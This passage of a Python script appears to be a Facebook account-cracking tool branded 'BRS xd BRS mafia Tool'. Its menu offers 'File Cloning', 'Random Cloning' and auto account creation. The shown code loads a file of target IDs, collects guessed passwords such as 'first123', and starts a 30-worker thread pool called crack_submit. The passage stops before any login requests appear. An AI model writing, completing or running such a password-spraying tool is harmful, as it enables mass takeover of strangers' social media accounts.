         for i in range(len(game)):
            print(f"\r%s [%s] %s %s "%(C,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),A))
loop=0
oks=[]
cps=[]
pcp=[]
id=[]
tokenku=[]

def menu():
            clear()
        #    linex()
            print('   \33[37;42m\t Welcome BRS xd BRS mafia Tool\33[0;m');linex()
            print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mFile Cloning ')
            print(' \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mRandom Cloning ')
            print(' \033[1;32m[\033[1;37m3\033[1;32m] \033[1;37mCreate Auto fb')
            print(' \033[1;32m[\033[1;37m4\033[1;32m] \033[1;37mAuto Create Fb ')
          
            print(' \033[1;32m[\033[1;37m5\033[1;32m] \033[1;37mWhatsApp Group')
   
            print(' \033[1;32m[\033[1;37m0\033[1;32m] \033[1;37mEXIT ')
            linex()
            xd=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChose : ')
            if xd in ['1','01']:
                clear()
                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut file example:  /sdcard/File.txt  etc..')
                linex()
                file = input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut file path\033[1;37m: ')
                try:
                    fo = open(file,'r').read().splitlines()
                except FileNotFoundError:
                    print(' File location not found ')
                    time.sleep(1)
                    menu()
                clear()
                print(' All method working ')
                linex()
                print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mMethod \n \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mMethod      ')
                linex()
                mthd=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
                linex()
                plist = []
                try:
                    ps_limit = int(input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mHow many passwords do you want to add ? '))
                except:
                    ps_limit =1
                clear()
                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mexp: first last,firtslast,first123')
                linex()
                for i in range(ps_limit):
                    plist.append(input(f' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut password {i+1}: '))
                clear()
                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mDo you went show cp account? (y/n): ')
                linex()
                cx=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
                if cx in ['y','Y','yes','Yes','1']:
                    pcp.append('y')
                else:
                    pcp.append('n')
                with tred(max_workers=30) as crack_submit:
                    clear()